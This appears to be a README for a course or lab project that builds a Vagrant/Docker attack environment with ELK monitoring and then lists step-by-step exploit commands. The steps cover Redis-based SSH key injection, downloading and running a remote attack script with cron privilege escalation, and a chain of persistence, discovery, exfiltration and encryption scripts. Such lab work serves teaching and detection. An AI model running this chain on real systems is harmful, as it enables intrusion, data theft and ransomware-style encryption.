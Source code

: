 # Preparing the Setup (Pre-requisites)

## Change docker-desktop settings (increase RAM and max virtual memory required by ELK)
- Go to %UserProfile%
- Create a file .wslconfig
- Edit to include the following below:

```
# Settings apply across all Linux distros running on WSL 2
[wsl2]
kernelCommandLine = "sysctl.vm.max_map_count=262144"
# Limits VM memory to use no more than 5 GB, this can be set as whole numbers using GB or MB
memory=5GB
```
References:
- https://mrakelinggar.medium.com/set-up-configs-like-memory-limits-in-docker-for-windows-and-wsl2-80689997309c
- https://stackoverflow.com/questions/69214301/using-docker-desktop-for-windows-how-can-sysctl-parameters-be-configured-to-per
- https://gist.github.com/audionerd/d7d77d9af080a7a87d9b

# Setting up the Attack Environment

1. Bring up all the containers:
```
vagrant up --no-parallel
```
2. Start metricbeat in the ELK container. Open the terminal (docker terminal or external) and enter:
```
service metricbeat start && metricbeat setup -e
```

# Exploit Manual/Steps
1. Reverse shell into the target
```
sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

# Accepts the prompt to trust connection
yes
```
Should the connection not work (still asked for password), run the following commands again:
```
printf "keys *\nconfig set dir /home/resch/.ssh\nconfig set dbfilename 'authorized_keys'\nsave\nexit" | redis-cli -h 172.18.0.2

sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

yes
```

2. Download all attack scripts which also executes privilege escalation exploiting Crobjob
```
wget https://raw.githubusercontent.com/S692/ossas/main/Gp5_import_scripts_and_PE.sh && chmod +x Gp5_import_scripts_and_PE.sh

# Downloads scripts and run PE exploit
./Gp5_import_scripts_and_PE.sh

# ONLY IF YOU did not successfully become root, execute the following command:
cd /home/resch/.scripts
./Gp5_PEexploitSudo.sh
```
3. Run the attack chain scripts chaining persistence to encryption
```
cd /home/resch/.scripts
./Gp5_attack_chain.sh
```
Alternatively, it can be executed one by one:
```
cd /home/resch/.scripts
./check.sh
pip3 install -r ./requirements.txt
./Gp5_persistence1.sh
./Gp5_file_and_dir_discovery.sh
./Gp5_collectiontarget.sh
./Gp5_exfiltration_target.sh
python3 Gp5_encrypt.py fndd-stripped.txt
```
4. After exfiltration, the encrypted exfiltrated files can be decrypted on the attacker's machine
```
cd ~

./Gp5_after_exfiltration_attk.sh

cd /home/vagrant/exfiltrated/exfiltrate_backups_decrypted

ls -la
```
